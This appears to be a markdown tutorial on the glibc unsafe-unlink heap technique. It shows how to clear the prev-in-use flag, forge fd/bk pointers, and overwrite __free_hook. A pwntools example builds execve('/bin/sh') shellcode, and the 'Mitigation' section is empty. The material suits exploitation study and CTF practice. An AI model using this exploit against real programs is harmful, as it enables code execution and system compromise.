


## Implementation

The goal is to clear the next chunk's prev in use flag in order to trigger a consolidation of 2 chunks when freeing.
We then need to control the fd and bk pointers of the consolidated chunks to trigger 2 arbitrary writes.

When free unlink our first chunk during consolidation, it follows the backward pointer and update its forward pointer, and does the opposit to the forward pointer, like a regular unlink.

```c
chunk->fd->bk = chunk->bk;
chunk->bk->fd = chunk->fd;
```

bk being at offset 0x18 and fd at offset 0x10 in the chunk structure.

It looks like this in assembly:
rax = fd

rdx = bk



#### Exploit example
```python
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))

fd = libc.sym.__free_hook - 0x18
bk = heap + 0x20 + 0x10 - 0x10 # heap + 0x20 = first chunk, +0x10 = shellcode
prev_size = 0x90
fake_size = 0x90 # with prev in use flag cleared

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

edit(chunk_a, p64(fd) + p64(bk) + shellcode + (b'\x00'*(0x70 - len(shellcode))) + p64(prev_size) + p64(fake_size))

# Trigger consolidation
free(chunk_b)

# Trigger free_hook
free(chunk_a)

```

## Mitigation
